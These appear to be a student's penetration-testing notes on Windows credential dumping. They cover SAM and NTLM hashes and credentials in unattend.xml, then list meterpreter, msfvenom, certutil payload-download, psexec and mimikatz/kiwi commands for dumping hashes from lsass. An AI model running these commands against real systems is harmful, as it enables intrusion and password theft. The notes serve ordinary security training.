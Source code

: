 ## Windows Credential Dumping

### Windows Password Hashes

Stored in the **SAM** (Security Accounts Manager) database file. Cannot be copied. Encrypted with **syskey. C:\Windows\system32\config\SAM**

Hashing is the process of converting data into another format using hashing algorithms.

Windows uses 2 (old, new) algorithms:

1. **LM** (no longer used, after Vista) - LanMan:
    1. breaks into 2 chunks, converts to uppercase, uses DES (Data Encryption Standard)
2. **NTLM** - NTHash:
    1. no breaking, case sensitive, MD4 

**Unattended Windows Setup** (used for automation of installation, etc) uses configuration files that have user credentials if they are left on the target:

1. **`C:\Windows\Panther\Unattend.xml`**
2. **`C:\Windows\Panther\Autounattend.xml`** (they can be in base64)

**Note**: Administrator can change the password after all

Commands on **Linux**:

1. payload with `msfvenom` then: `python2 -m SimpleHTTPServer 80`

 3.  `use multi/handler, set payload <the_same>`

1. `meterpreter > download C:\Windows\Panther\unattend.xml`
2. `echo ‘<password>’ | base64 -d`
3. [`psexec.py](http://psexec.py) administrator@<ip>`, then the password from unattend.xml

**Powershell**:

- `whoami /priv` = `getprivs` in meterpreter
1. `certutil -urlcache -f http://<local_ip>/payload.exe payload.exe` - wget on Windows

 4.  `start payload.exe`

### Dumping Hashes with Mimikatz and Kiwi

**Mimikatz** is a post-exploitation tool for extarcting **passwords** and their **hashes** from the memory (lsass.exe).

Or we can use a meterpreter module (`meterpreter > load **kiwi**`) it is, actually, mimikatz

**NOTE**:For this we must access to **lsass**.exe

- `search badblue_passthru` - BadBlue 2.7 exploitation
- `meterpreter > pgrep lsass` *************
- `meterpreter > migrate <$lsass_id>`
- `meterpreter > load kiwi`
- `meterpreter > ?` -  help menu
- `meterpreter > creds_all` - the password hash of the current user
- `meterpreter > lsa_dump_sam` - NTLM hashes of **all** users
- `meterpreter > lsa_dump_secrets` - can give some clear-text passwords
